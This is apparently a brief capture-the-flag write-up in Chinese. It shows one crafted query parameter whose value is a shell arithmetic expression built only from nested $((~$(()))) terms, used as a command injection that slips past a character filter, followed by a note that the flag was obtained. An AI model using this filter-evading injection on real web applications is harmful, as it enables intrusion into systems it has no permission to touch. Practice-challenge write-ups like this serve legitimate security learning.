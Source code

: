 构建命令

```
?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))
```

得到flag

![image-20240120211520805](image/image-20240120211520805.png)
